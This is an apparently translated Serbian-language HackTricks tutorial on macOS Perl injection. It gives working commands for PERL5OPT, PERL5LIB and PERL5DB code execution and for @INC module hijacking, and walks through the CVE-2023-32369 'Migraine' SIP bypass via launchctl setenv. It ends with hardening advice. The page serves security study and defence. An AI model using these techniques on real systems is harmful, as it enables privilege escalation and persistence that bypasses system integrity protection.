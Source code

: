 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Putem `PERL5OPT` & `PERL5LIB` env varijable

Korišćenjem env varijable **`PERL5OPT`** moguće je naterati **Perl** da izvrši proizvoljne komande kada se interpreter pokrene (čak **pre** nego što se prva linija ciljnog skripta analizira).
Na primer, kreirajte ovaj skript:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Sada **izvezite env promenljivu** i izvršite **perl** skriptu:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Druga opcija je da se kreira Perl modul (npr. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
I zatim koristite env varijable tako da se modul automatski locira i učita:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Ostale zanimljive promenljive okruženja

* **`PERL5DB`** – kada se interpreter pokrene sa **`-d`** (debugger) flagom, sadržaj `PERL5DB` se izvršava kao Perl kod *unutar* konteksta debagera. 
Ako možete da utičete na oba, okruženje **i** komandne linijske flagove privilegovanog Perl procesa, možete uraditi nešto poput:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # će otvoriti shell pre izvršavanja skripte
```

* **`PERL5SHELL`** – na Windows-u ova promenljiva kontroliše koji izvršni fajl shell-a Perl će koristiti kada treba da pokrene shell. Pominje se ovde samo radi potpunosti, jer nije relevantna na macOS-u.

Iako `PERL5DB` zahteva `-d` switch, uobičajeno je naći skripte za održavanje ili instalaciju koje se izvršavaju kao *root* sa ovim flagom uključenim za detaljno rešavanje problema, čineći promenljivu validnim vektorom eskalacije.

## Putem zavisnosti (@INC zloupotreba)

Moguće je nabrojati putanju uključivanja koju Perl će pretraživati (**`@INC`**) pokretanjem:
```bash
perl -e 'print join("\n", @INC)'
```
Tipičan izlaz na macOS 13/14 izgleda ovako:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Neki od vraćenih foldera čak ni ne postoje, međutim **`/Library/Perl/5.30`** postoji, *nije* zaštićen SIP-om i *nalazi se* pre foldera zaštićenih SIP-om. Stoga, ako možete pisati kao *root*, možete postaviti zloćudni modul (npr. `File/Basename.pm`) koji će biti *preferencijalno* učitan od strane bilo kog privilegovanog skripta koji uvozi taj modul.

> [!WARNING]
> I dalje vam je potreban **root** da biste pisali unutar `/Library/Perl`, a macOS će prikazati **TCC** prompt koji traži *Potpunu pristup disku* za proces koji vrši operaciju pisanja.

Na primer, ako skripta uvozi **`use File::Basename;`**, bilo bi moguće kreirati `/Library/Perl/5.30/File/Basename.pm` koji sadrži kod pod kontrolom napadača.

## SIP zaobilaženje putem Migration Assistant (CVE-2023-32369 “Migraine”)

U maju 2023. Microsoft je objavio **CVE-2023-32369**, nazvan **Migraine**, tehnika post-exploatacije koja omogućava *root* napadaču da potpuno **zaobiđe zaštitu integriteta sistema (SIP)**. 
Ranljiva komponenta je **`systemmigrationd`**, demon sa ovlašćenjem **`com.apple.rootless.install.heritable`**. Svaki podproces koji pokrene ovaj demon nasleđuje ovlašćenje i stoga se izvršava **van** SIP ograničenja.

Među decom koje su identifikovali istraživači je Apple-ov potpisani interpreter:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Zato što Perl poštuje `PERL5OPT` (a Bash poštuje `BASH_ENV`), zagađenje *okruženja* daemona je dovoljno da se dobije proizvoljna izvršna prava u kontekstu bez SIP-a:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Kada `migrateLocalKDC` pokrene, `/usr/bin/perl` se pokreće sa zlonamernim `PERL5OPT` i izvršava `/private/tmp/migraine.sh` *pre nego što se SIP ponovo omogući*. Iz tog skripta možete, na primer, kopirati payload unutar **`/System/Library/LaunchDaemons`** ili dodeliti `com.apple.rootless` proširenu atribut kako biste učinili datoteku **neizbrisivom**.

Apple je ispravio problem u macOS **Ventura 13.4**, **Monterey 12.6.6** i **Big Sur 11.7.7**, ali stariji ili neispravljeni sistemi ostaju podložni eksploataciji.

## Preporuke za učvršćivanje

1. **Obrišite opasne promenljive** – privilegovani launchdaemons ili cron poslovi treba da se pokreću u čistom okruženju (`launchctl unsetenv PERL5OPT`, `env -i`, itd.).
2. **Izbegavajte pokretanje interpretera kao root** osim ako nije strogo neophodno. Koristite kompajlirane binarne datoteke ili rano smanjite privilegije.
3. **Vendor skripte sa `-T` (taint mode)** tako da Perl ignoriše `PERL5OPT` i druge nesigurne opcije kada je provera taint-a omogućena.
4. **Držite macOS ažuriranim** – “Migrena” je potpuno ispravljena u trenutnim izdanjima.

## Reference

- Microsoft Security Blog – “Nova macOS ranjivost, Migrena, može zaobići zaštitu integriteta sistema” (CVE-2023-32369), 30. maj 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) istraživanje”, maj 2025.

{{#include ../../../banners/hacktricks-training.md}}
